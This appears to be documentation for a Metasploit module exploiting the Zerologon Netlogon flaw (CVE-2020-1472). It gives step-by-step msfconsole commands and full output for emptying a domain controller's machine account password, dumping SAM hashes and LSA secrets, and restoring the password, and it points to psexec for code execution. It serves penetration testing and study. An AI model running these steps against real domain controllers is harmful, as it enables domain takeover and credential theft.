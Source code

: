 ## Vulnerable Application
A vulnerability exists within the Netlogon authentication process where the security properties granted by AES are lost
due to an implementation flaw related to the use of a static initialization vector (IV). An attacker can leverage this
flaw to target an Active Directory Domain Controller and make repeated authentication attempts using NULL data fields
which will succeed every 1 in 256 tries (~0.4%). This module leverages the vulnerability to reset the machine account
password to an empty string, which will then allow the attacker to authenticate as the machine account. After
exploitation, it's important to restore this password to it's original value. Failure to do so can result in service
instability.

The `auxiliary/gather/windows_secrets_dump` module can be used to recover the original machine account password which
can then be restored with this module by using the `RESTORE` action and setting the `PASSWORD` value.

## Verification Steps

1. Exploit the vulnerability to remove the machine account password by replacing it with an empty string
    1. From msfconsole
    1. Do: `use auxiliary/admin/dcerpc/cve_2020_1472_zerologon`
    1. Set the `RHOSTS` and `NBNAME` values
    1. Run the module and see that the original machine account password was removed
1. Recover the original machine account password
    1. Do: `use auxiliary/gather/windows_secrets_dump`
    1. Set the `RHOSTS` values
    1. Set the `SMBUser` option to the NetBIOS name with a trailing `$`, e.g. `NBNAME$`
    1. Set the `SMBPass` option to `aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0` (the hash of an empty password)
    1. Run the module and search for the password in the output (`NBNAME$:plain_password_hex:`)
1. Restore the original machine account password
    1. From msfconsole
    1. Do: `use auxiliary/admin/dcerpc/cve_2020_1472_zerologon`
    1. Set the action to `RESTORE`
    1. Set the `RHOSTS`, `NBNAME` and `PASSWORD` values
    1. Run the module and see that the original value was restored

## Options

### NBNAME

The NetBIOS name of the target domain controller. You can use the `auxiliary/scanner/netbios/nbname` module to obtain
this value. If this value is invalid the module will fail when making a Netlogon RPC request.

### PASSWORD

The hex value of the original machine account password. This value is typically recovered from the target system's
registry (such as by using the `auxiliary/gather/windows_secrets_dump` Metasploit module) after successfully setting the
value to an empty string within Active Directory using this module and the default `REMOVE` action.

This value is only used when running the module with the `RESTORE` action.

## Scenarios

### Windows Server 2019

First, exploit the vulnerability to remove the machine account password by replacing it with an empty string.

```
msf > use auxiliary/admin/dcerpc/cve_2020_1472_zerologon 
msf auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > set RHOSTS 192.168.159.53 
RHOSTS => 192.168.159.53
msf auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > set NBNAME WIN-GD5KVDKUNIP
NBNAME => WIN-GD5KVDKUNIP
msf auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > show options 

Module options (auxiliary/admin/dcerpc/cve_2020_1472_zerologon):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   NBNAME  WIN-GD5KVDKUNIP  yes       The server's NetBIOS name
   RHOSTS  192.168.159.53   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                    no        The netlogon RPC port (TCP)


Auxiliary action:

   Name    Description
   ----    -----------
   REMOVE  Remove the machine account password


msf auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > run
[*] Running module against 192.168.159.53

[*] 192.168.159.53: - Connecting to the endpoint mapper service...
[*] 192.168.159.53:6403 - Binding to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.159.53[6403] ...
[*] 192.168.159.53:6403 - Bound to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.159.53[6403] ...
[+] 192.168.159.53:6403 - Successfully authenticated
[+] 192.168.159.53:6403 - Successfully set the machine account (WIN-GD5KVDKUNIP$) password to: aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 (empty)
[*] Auxiliary module execution completed
msf auxiliary(admin/dcerpc/cve_2020_1472_zerologon) >
```

At this point the `exploit/windows/smb/psexec` module can be used to achieve code execution if desired. Set the `SMBUser` option to the
machine account and the `SMBPass` option to the empty password value.

Next, recover the original machine account password value using `auxiliary/gather/windows_secrets_dump`. Look for the `plain_password_hex`
value in the `$MACHINE.ACC` section.

```
msf auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > use auxiliary/gather/windows_secrets_dump 
msf auxiliary(gather/windows_secrets_dump) > set RHOSTS 192.168.159.53
RHOSTS => 192.168.159.53
msf auxiliary(gather/windows_secrets_dump) > set SMBUser WIN-GD5KVDKUNIP$
SMBUser => WIN-GD5KVDKUNIP$
msf auxiliary(gather/windows_secrets_dump) > set SMBPass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
SMBPass => aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
msf auxiliary(gather/windows_secrets_dump) > run
[*] Running module against 192.168.159.53

[*] 192.168.159.53:445 - Service RemoteRegistry is already running
[*] 192.168.159.53:445 - Retrieving target system bootKey
[+] 192.168.159.53:445 - bootKey: 0xa11f7c33c8bab9e427dec59436dbb17d
[*] 192.168.159.53:445 - Saving remote SAM database
[*] 192.168.159.53:445 - Dumping SAM hashes
[*] 192.168.159.53:445 - Password hints:
No users with password hints on this system
[*] 192.168.159.53:445 - Password hashes (pwdump format - uid:rid:lmhash:nthash:::):
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6df12cddaa88057f06a80b5ee73b949b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d17ae931b73c5ad7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d17ae931b73c5ad7e0c089c0:::
[*] 192.168.159.53:445 - Saving remote SECURITY database
[*] 192.168.159.53:445 - Decrypting LSA Key
[*] 192.168.159.53:445 - Dumping LSA Secrets
$MACHINE.ACC
EXCHG\WIN-GD5KVDKUNIP$:plain_password_hex:4151e8f8490762bc47ec11855921aef606f9d37176aef0f43a3fc6dc4aefc4c0d7bb7b88ad635a11f94de37e0d82495bab1dec25ac9d547910f94332f4598de372c07635fba1f6592bd3bb5aeb827cb088b1cae8db872b59e267ccfef1df40580c8d918befb3c39d809a6c89767a466f88f40eb373f86cf20c9b6a07e89b596e14a44eae6a4ae55b92a481b71452a3bbab2d5735d70868b778541f3c6e4d1c8c097c086bc40d364c01d4520b8a86a217ac79b4e826b9dc2eedd0a834146e3f6fba7422960dbd4051f499be61eca4e1aeba786030acfdd21e9f5a98a35a3f0430cf0b536bff99163118a1c75ec852cc2d
EXCHG\WIN-GD5KVDKUNIP$:aes256-cts-hmac-sha1-96:127c328739d4406e6734684b971709acb2215f947b961355fa25b9b3fda38a08
EXCHG\WIN-GD5KVDKUNIP$:aes128-cts-hmac-sha1-96:becbe21ab050ccb1d8a5b908839fd95f
EXCHG\WIN-GD5KVDKUNIP$:des-cbc-md5:b5f843cec2e56220
EXCHG\WIN-GD5KVDKUNIP$:aad3b435b51404eeaad3b435b51404ee:ec3a7fa2158f1f705898d538ad3aafaf:::
...

[*] 192.168.159.53:445 - Decrypting NL$KM
[*] 192.168.159.53:445 - Dumping cached hashes
No cached hashes on this system
[*] 192.168.159.53:445 - Cleaning up...
[*] Auxiliary module execution completed
msf auxiliary(gather/windows_secrets_dump) >
```

Finally, restore the original value using this module.

```
msf auxiliary(gather/windows_secrets_dump) > use auxiliary/admin/dcerpc/cve_2020_1472_zerologon 
msf auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > set ACTION RESTORE 
ACTION => RESTORE
msf auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > set PASSWORD 4151e8f8490762bc47ec11855921aef606f9d37176aef0f43a3fc6dc4aefc4c0d7bb7b88ad635a11f94de37e0d82495bab1dec25ac9d547910f94332f4598de372c07635fba1f6592bd3bb5aeb827cb088b1cae8db872b59e267ccfef1df40580c8d918befb3c39d809a6c89767a466f88f40eb373f86cf20c9b6a07e89b596e14a44eae6a4ae55b92a481b71452a3bbab2d5735d70868b778541f3c6e4d1c8c097c086bc40d364c01d4520b8a86a217ac79b4e826b9dc2eedd0a834146e3f6fba7422960dbd4051f499be61eca4e1aeba786030acfdd21e9f5a98a35a3f0430cf0b536bff99163118a1c75ec852cc2d
PASSWORD => 4151e8f8490762bc47ec11855921aef606f9d37176aef0f43a3fc6dc4aefc4c0d7bb7b88ad635a11f94de37e0d82495bab1dec25ac9d547910f94332f4598de372c07635fba1f6592bd3bb5aeb827cb088b1cae8db872b59e267ccfef1df40580c8d918befb3c39d809a6c89767a466f88f40eb373f86cf20c9b6a07e89b596e14a44eae6a4ae55b92a481b71452a3bbab2d5735d70868b778541f3c6e4d1c8c097c086bc40d364c01d4520b8a86a217ac79b4e826b9dc2eedd0a834146e3f6fba7422960dbd4051f499be61eca4e1aeba786030acfdd21e9f5a98a35a3f0430cf0b536bff99163118a1c75ec852cc2d
msf auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > show options 

Module options (auxiliary/admin/dcerpc/cve_2020_1472_zerologon):

   Name      Current Setting                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   Required  Description
   ----      ---------------                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   --------  -----------
   NBNAME    WIN-GD5KVDKUNIP                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   yes       The server's NetBIOS name
   PASSWORD  4151e8f8490762bc47ec11855921aef606f9d37176aef0f43a3fc6dc4aefc4c0d7bb7b88ad635a11f94de37e0d82495bab1dec25ac9d547910f94332f4598de372c07635fba1f6592bd3bb5aeb827cb088b1cae8db872b59e267ccfef1df40580c8d918befb3c39d809a6c89767a466f88f40eb373f86cf20c9b6a07e89b596e14a44eae6a4ae55b92a481b71452a3bbab2d5735d70868b778541f3c6e4d1c8c097c086bc40d364c01d4520b8a86a217ac79b4e826b9dc2eedd0a834146e3f6fba7422960dbd4051f499be61eca4e1aeba786030acfdd21e9f5a98a35a3f0430cf0b536bff99163118a1c75ec852cc2d  no        The password to restore for the machine account (in hex)
   RHOSTS    192.168.159.53                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       no        The netlogon RPC port (TCP)


Auxiliary action:

   Name     Description
   ----     -----------
   RESTORE  Restore the machine account password


msf auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > run
[*] Running module against 192.168.159.53

[*] 192.168.159.53: - Connecting to the endpoint mapper service...
[*] 192.168.159.53:6403 - Binding to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.159.53[6403] ...
[*] 192.168.159.53:6403 - Bound to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.159.53[6403] ...
[+] 192.168.159.53:6403 - Successfully set machine account (WIN-GD5KVDKUNIP$) password
[*] Auxiliary module execution completed
msf auxiliary(admin/dcerpc/cve_2020_1472_zerologon) >
```
